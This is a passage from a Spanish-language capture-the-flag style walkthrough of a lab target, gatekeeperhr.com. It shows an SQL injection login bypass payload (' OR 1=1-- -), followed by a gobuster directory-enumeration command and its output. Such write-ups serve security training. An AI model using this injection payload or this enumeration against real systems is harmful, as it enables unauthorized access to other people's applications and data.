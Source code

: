 Veremos que volvemos a la misma pagina, pero si le damos al boton de `login` veremos que funcion y veremos un panel de `login`.

Si probamos a realizar un `SQL Injection` simple, veremos que `Bypasseamos` el `login` y nos autenticamos:

```
User: ' OR 1=1-- -
Pass: ' OR 1=1-- -
```

Y veremos lo siguiente:

<figure><img src="../../.gitbook/assets/image (184) (1).png" alt=""><figcaption></figcaption></figure>

Por lo que vamos a probar a ver si podemos sacar info de la base de datos con el `SQL Injection`, pero no podremos realizar mucho, si hacemos un poco de `fuzzing` ahora con el dominio.

## Gobuster

```shell
gobuster dir -u http://gatekeeperhr.com/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://gatekeeperhr.com/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess.html       (Status: 403) [Size: 281]
/.htaccess            (Status: 403) [Size: 281]
/.htpasswd.php        (Status: 403) [Size: 281]
/.htpasswd.html       (Status: 403) [Size: 281]
/.htaccess.txt        (Status: 403) [Size: 281]
/.htaccess.php        (Status: 403) [Size: 281]
/about.html           (Status: 200) [Size: 3339]
/.htpasswd.txt        (Status: 403) [Size: 281]
/.htpasswd            (Status: 403) [Size: 281]
/contact.html         (Status: 200) [Size: 3140]
```